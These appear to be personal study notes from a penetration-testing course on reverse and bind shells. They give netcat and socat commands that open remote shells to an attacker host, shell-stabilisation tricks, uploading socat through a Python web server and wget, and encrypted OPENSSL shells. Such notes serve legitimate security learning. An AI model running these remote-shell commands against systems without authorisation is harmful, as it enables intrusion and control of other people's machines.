 # Reverse vs Bind shells
1. Reverse shells
are when the target is forced to execute code that connects back to your computer. 

  - Example: `sudo nc -lvnp 443` to start listner on attacker's machine, and `nc <LOCAL-IP> <PORT> -e /bin/bash` to set a reverse shell on the target's machine.

2. Bind shells
are when the code executed on the target is used to start a listener attached to a shell directly on the target. This would then be opened up to the internet, meaning you can connect to the port that the code has opened and obtain remote code execution that way.

  - Example: `nc -lvnp <port> -e "cmd.exe"` through a evil-winrm `evil-winrm -i <localIP>-u Adminstrator -p 'Try4ackM3'` on the target machine to set a listening port, and `nc MACHINE_IP <port>` on attacker's machine to connect to the target.

The important thing to understand here is that we are listening on the target, then connecting to it with our own machine.

## Shells can be either interactive or non-interactive
1. interactive: These allow you to interact with programs after executing them. For example, take the SSH login prompt. Examples include: Powershell, Bash, Zsh, sh, or any other standard CLI environment.

2. non-interactive: In a non-interactive shell you are limited to using programs which do not require user interaction in order to run properly, like whoami for example.

# Netcat shells stabilisation
### python
1. first step is `python -c 'import pty;pty.spawn("/bin/bash")'` which gets us a better featured bash shell. we might need to replace python with python2 or python3 as required.
2. second step is: `export TERM=xterm` -- this will give us access to term commands such as clear.
3. `stty raw -echo; fg` -- This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). then foregrounds the shell, thus completing the process.
    > Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type reset and press enter.

### rlwrap
rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell. To use rlwrap, we invoke a slightly different listener: `rlwrap nc -lvnp <port>`.

This gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, cuz they are difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with `Ctrl + Z`, then use `stty raw -echo; fg` to stabilise and re-enter the shell.

### Socat
1. we would first transfer a socat static compiled binary up to the target machine. How? set up a web server using `sudo python3 -m http.server 80` and download using `wget <LOCAL-IP>/socat -O /tmp/socat)` or on windows using `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`.

    > This technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell.

> With any of the above techniques, it's useful to be able to change your terminal tty size if you want to use something like a text editor. use `stty -a` to show the current values and `stty cols <num>`/`stty rows <num>` to set a new value. 

# Socat
### reverse shells
1. `socat TCP-L:<port> -` is an equivalent for `nc -lvnp <port>`.
2. For Windows target we use `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes` to connect back. The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output. while for Linux target we use `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`

### bind shells
1. For linux target we use `socat TCP-L:<PORT> EXEC:"bash -li"`, while for windows we use `socat TCP-L:<PORT> EXEC:powershell.exe,pipes`.
2. on attacker's machine we use `socat TCP:<TARGET-IP>:<TARGET-PORT> -` to connect to the listening target.

### Fully stable Linux tty reverse shell
This technique is one of its most useful applications. Here is the new listener syntax: (works only for linux targets) `socat TCP-L:<port> FILE:`tty`,raw,echo=0` which is equivalent to using the `Ctrl + Z`, `stty raw -echo; fg` trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty.

this special listener must be activated with a very specific socat command. This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a precompiled socat binary, which can then be executed as normal.

The special command is as follows: `socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`.

The first part is easy -- we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with  EXEC:"bash -li". We're also passing the arguments:
- pty, allocates a pseudoterminal on the target -- part of the stabilisation process
- stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
- sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
- setsid, creates the process in a new session
- sane, stabilises the terminal, attempting to "normalise" it.

  ### Example: (attacker< >target)
  ![image](https://github.com/user-attachments/assets/8ac883f6-5955-42d7-986b-c18692ab4bb3)

### Encrypted shells
Socat is capable of creating encrypted shells -- both bind and reverse. Suffice to say that any time TCP was used as part of a command, this should be replaced with OPENSSL when working with encrypted shells. 

Steps to use the feature:
1. We first need to generate a certificate. on our attacking machine: `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`.
2. We then need to merge the two created files into a single .pem file: `cat shell.key shell.crt > shell.pem`
3. to set up a reverse shell listener `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`
4. To connect back, we would use: `socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`
5. The same technique would apply for a bind shell:
  - Target: `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`
  - Attacker: `socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`

    ### Example: (attacker< >target)
    ![image](https://github.com/user-attachments/assets/8992c65c-aead-4452-bb6a-aeea142ae7a9)

6. what if we want to use the tty technique with the encrypted shell? here is the command to use: `socat OPENSSL-LISTEN:53 FILE:`tty`,raw,echo=0,cert=shell.pem,verify=0 -`, and to connect back, we use `socat OPENSSL:10.10.10.5:53 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`.


